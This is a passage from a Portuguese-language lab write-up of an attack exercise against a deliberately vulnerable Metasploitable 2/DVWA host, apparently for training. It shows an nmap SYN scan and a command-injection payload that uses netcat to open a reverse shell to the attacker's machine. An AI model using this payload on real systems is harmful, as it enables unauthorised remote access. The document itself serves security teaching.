 
## Reconhecimento
Para começar a exploração da rede interna, o time atacante realizou um scan na rede com o intuito de descobrir os hosts ali presentes, assim como portas abertas, serviços e versões destes.

### NMAP
Portanto fez-se uso da ferramenta “NMAP” (Network Mapper), utilizando do seguinte código:
```bash
nmap -sS –sV -p- 172.22.22.0/24
```
Escaneando por portas hosts, portas abertas, serviços em execução e “Syn scan”, o qual possui a função de ser rápido e não completar o “Three-way Handshake” do protocolo TCP, gerando desta forma menos logs no sistema alvo.

### O alvo
O time atacante possuiu como foco principal o comprometimento do **host 172.22.22.97** (Servidor Web – Metasploitable 2), o qual já é bastante conhecido por suas vulnerabilidades, diante dessa informação foram executados ataques explorando essas brechas de segurança.

O primeiro ataque realizado foi no servidor web “DVWA” (Damn Vulnerable Web Application) que estava em execução no host. Esse ataque foi feito explorando a vulnerabilidade de “Command Injection”, vulnerabilidade esta pertencente a classe de “Injection” presente na terceira posição do projeto “OWASP Top Ten" de 2021. 

Esta vulnerabilidade foi explorada através do código: 
```bash
8.8.8.8; nc –e /bin/bash 10.10.10.99 9999
```
o qual possuiu a função de obter uma shell reversa do servidor web para o atacante (Kali Linux, de IP 10.10.10.99).
Diante do primeiro ataque, obteve-se uma shell do servidor web e então o próximo passo tornou-se em fazer uma escalação de privilégios, saindo do usuário com poucos privilégios para o root do sistema.
